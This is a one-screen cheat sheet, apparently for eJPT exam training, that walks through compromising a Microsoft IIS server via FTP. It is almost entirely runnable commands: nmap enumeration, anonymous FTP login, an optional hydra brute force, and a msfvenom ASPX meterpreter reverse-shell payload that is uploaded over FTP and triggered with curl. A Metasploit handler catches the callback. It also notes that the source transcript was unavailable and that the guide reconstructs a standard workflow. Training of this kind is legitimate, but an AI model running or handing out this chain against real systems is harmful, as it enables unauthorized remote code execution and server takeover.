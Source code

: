 ## Minimal cheat sheet (one‑screen flow)
```bash
# Vars
export TARGET=10.10.10.10; export LHOST=10.10.14.14; export LPORT=4444

# Scan
nmap -sC -sV -p21,80 -oN nmap_iis_ftp.txt $TARGET
nmap -sV -p21 --script banner,ftp-anon,ftp-syst -oN nmap_ftp_enum.txt $TARGET

# Try anonymous
ftp -inv $TARGET << 'EOF'
user anonymous anonymous@
pwd
ls
bye
EOF

# If needed: brute
# hydra -L users.txt -P passwords.txt -f -o hydra_ftp.txt -u -t 4 ftp://$TARGET

# Generate ASPX payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f aspx -o shell.aspx

# Upload (adjust USER/PASS)
ftp -inv $TARGET << 'EOF'
user USER PASS
binary
put shell.aspx
bye
EOF

# Handler
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST $LHOST; set LPORT $LPORT; exploit -j"

# Trigger
curl -v http://$TARGET/shell.aspx
```

## Summary
- Enumerate FTP on port 21 and verify it’s Microsoft FTP Service.
- Check anonymous access and directory permissions; if needed, brute-force logins.
- Confirm if the FTP root maps to C:\inetpub\wwwroot by looking for IIS default files.
- Generate an ASPX reverse shell payload with msfvenom, upload via FTP (binary mode), and trigger it over HTTP to gain code execution.
- Use Metasploit’s multi/handler to catch the callback and proceed with post-exploitation; clean up after yourself.

Because the transcript was unavailable, this guide captures the standard eJPT workflow for targeting Microsoft IIS FTP safely and effectively.